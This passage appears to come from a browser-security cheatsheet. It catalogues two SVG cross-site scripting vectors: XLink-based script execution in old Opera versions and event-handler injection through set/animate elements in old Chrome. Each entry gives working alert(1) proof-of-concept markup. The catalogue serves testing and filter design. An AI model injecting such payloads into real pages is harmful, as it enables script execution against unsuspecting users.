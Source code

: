 *   [http://www.w3.org/TR/SVG11/linking.html](http://www.w3.org/TR/SVG11/linking.html)
*   [http://www.w3.org/TR/SVGTiny12/linking.html](http://www.w3.org/TR/SVGTiny12/linking.html)
*   [#68](#68)
*   [#81](#81)
*   [#130](#130)

reporter：LeverOne

### SVG active JavaScript execution via XLink in Opera[#88](#88)[test](test/#88)

The content of the xml-links will be automatically included in the current document. The combination of "onLoad" (value of xlink:actuate) and "embed" (value of xlink:show) forms of potentially unsafe SVG-elements.


```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"> <animation xlink:href="javascript:alert(1)"/> <animation xlink:href="data:text/xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <image xlink:href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <foreignObject xlink:href="javascript:alert(1)"/> <foreignObject xlink:href="data:text/xml,%3Cscript xmlns='http://www.w3.org/1999/xhtml'%3Ealert(1)%3C/script%3E"/> </svg>
```

*   opera 9.x
*   opera 12.0

*   xss
*   svg
*   active
*   xlink
*   opera

*   [http://www.w3.org/TR/SVG11/attindex.html](http://www.w3.org/TR/SVG11/attindex.html)
*   [http://www.w3.org/TR/SVGTiny12/attributeTable.html](http://www.w3.org/TR/SVGTiny12/attributeTable.html)
*   [#95](#95)
*   [#129](#129)

reporter：LeverOne

### SVG event handler injection via "set" and "animate"[#89](#89)[test](test/#89)

Google Chrome and Safari support binding an event handler using the elements &lt;set&gt; or &lt;animate&gt;. The attribute value is the actually bound event while the "to" attribute value holds the payload. The problem has been fixed in recent Chrome versions.


```
<svg xmlns="http://www.w3.org/2000/svg"> <set attributeName="onmouseover" to="alert(1)"/> <animate attributeName="onunload" to="alert(1)"/> </svg>
```

*   chrome 4.0
*   chrome 10.0
